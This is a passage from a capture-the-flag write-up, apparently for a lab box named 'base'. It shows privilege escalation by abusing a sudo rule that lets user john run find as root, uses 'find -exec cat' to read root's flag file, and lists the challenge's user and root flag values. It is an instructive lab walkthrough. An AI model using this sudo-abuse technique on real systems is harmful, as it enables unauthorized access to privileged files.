 - At this point we can disconnect and connect with SSH

---

## PRIVILEGED ESCALATION

- Since we are a normal user we cannot retrieve the root flag
- We need to perform some privileged escalation techniques

```bash
john@base:~$ sudo -l
Matching Defaults entries for john on base:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:\
        /usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find
```

- Hence we can exploit this command to get the flag

```bash
john@base:~$ sudo find /root/ -regex '.*\.txt' -exec cat {} \;
51709519ea18ab37dd6fc58096bea949
```

---

## FLAGS

USER: f54846c258f3b4612f78a819573d158e

ROOT: 51709519ea18ab37dd6fc58096bea949